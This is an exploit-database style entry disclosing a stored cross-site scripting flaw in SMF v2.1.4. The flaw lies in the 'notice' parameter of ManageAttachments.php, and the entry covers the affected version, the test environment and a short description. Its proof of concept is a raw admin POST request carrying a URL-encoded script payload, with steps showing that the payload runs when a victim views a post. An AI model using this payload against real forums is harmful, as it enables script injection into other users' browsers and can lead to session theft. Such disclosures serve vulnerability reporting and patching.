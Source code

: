 # Exploit Title: SMF v2.1.4 - Cross-Site Scripting (XSS)
## Date: 1/3/2025
## Vendor Homepage: https://github.com/SimpleMachines/SMF
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SimpleMachines
## Version: v2.1.4
## Exploit Description:
## SMF v2.1.4 suffers from Stored Cross-Site Scripting (XSS) Vulnerability in the 'notice' parameter of the 'ManageAttachments.php' script. This vulnerability allows attackers to inject malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------
1. User creates a new post and uploads an attachment
2. Attacker deletes the attachment by size and injects the payload in the 'notice' parameter
```
POST /index.php?action=admin;area=manageattachments HTTP/1.1
...

size=100&notice=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E(INJECT HERE)&remove=%E5%88%A0%E9%99%A4&type=attachments&c07825d64=a3a2b4dce90f74817c84b935881afe62&sa=bySize
```
3. Victim views the post and the payload is executed

